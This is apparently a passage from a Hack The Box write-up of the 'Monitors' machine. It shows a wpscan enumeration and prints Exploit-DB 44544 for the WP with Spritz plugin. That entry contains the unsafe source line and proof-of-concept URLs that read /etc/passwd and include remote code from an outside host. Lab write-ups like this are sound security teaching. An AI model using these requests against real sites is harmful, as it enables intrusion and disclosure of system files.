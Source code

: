 ```zsh
┌──(kali㉿kali)-[~]
└─$ sudo wpscan --url http://monitors.htb -e ap,t,tt,u --api-token TOKEN
[...]
[i] Plugin(s) Identified:

[+] wp-with-spritz
 | Location: http://monitors.htb/wp-content/plugins/wp-with-spritz/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2015-08-20T20:15:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: WP with Spritz 1.0 - Unauthenticated File Inclusion
 |     References:
 |      - https://wpscan.com/vulnerability/cdd8b32a-b424-4548-a801-bbacbaad23f8
 |      - https://www.exploit-db.com/exploits/44544/
 |
 | Version: 4.2.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://monitors.htb/wp-content/plugins/wp-with-spritz/readme.txt
[...]
```

## Wordpress RFI

Wpscan tells us the `wp-with-spritz` plugin version is vulnerable to an RFI:

```zsh
┌──(kali㉿kali)-[~]
└─$ locate 44544                       
/usr/share/exploitdb/exploits/php/webapps/44544.php
          
┌──(kali㉿kali)-[~]
└─$ cat /usr/share/exploitdb/exploits/php/webapps/44544.php                                  
# Exploit Title: WordPress Plugin WP with Spritz 1.0 - Remote File Inclusion
# Date: 2018-04-25
# Exploit Author: Wadeek
# Software Link: https://downloads.wordpress.org/plugin/wp-with-spritz.zip
# Software Version: 1.0
# Google Dork: intitle:("Spritz Login Success") AND inurl:("wp-with-spritz/wp.spritz.login.success.html")
# Tested on: Apache2 with PHP 7 on Linux
# Category: webapps


1. Version Disclosure

/wp-content/plugins/wp-with-spritz/readme.txt

2. Source Code

if(isset($_GET['url'])){
$content=file_get_contents($_GET['url']);

3. Proof of Concept

/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=http(s)://domain/exec                                                                                  
```
